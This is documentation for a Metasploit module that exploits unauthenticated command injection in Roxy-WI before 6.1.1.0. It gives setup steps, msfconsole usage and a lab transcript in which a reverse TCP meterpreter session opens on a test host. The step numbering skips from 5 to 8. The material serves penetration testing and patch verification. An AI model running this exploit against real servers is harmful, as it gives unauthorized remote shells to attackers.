 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability in Roxy-WI prior to version 6.1.1.0.
Successful exploitation results in remote code execution under the context of the web server user.

### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

https://roxy-wi.org/installation.py#manual

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST` to the address of the target Roxy-WI machine.
5. Set `LHOST` to the address of your attacking machine.
8. Run `exploit`
9. Do: `run`
10. You should get a shell as the user running the Roxy-WI server.

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### TARGETURI

Set `TARGETURI` if the Roxy-WI is installed at a custom path.

## Scenarios

### Roxy-WI 6.1.1.0 Ubuntu 20.04 GNU/Linux (x86_64) - Apache/2.4.52 / Python 3.10.4 / MySQL 8.0.29

```
msf6 > use exploit/linux/http/roxy_wi_exec
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Executing Automatic for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (40168 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:56156) at 2022-07-25 18:49:54 +0300

meterpreter > 
```
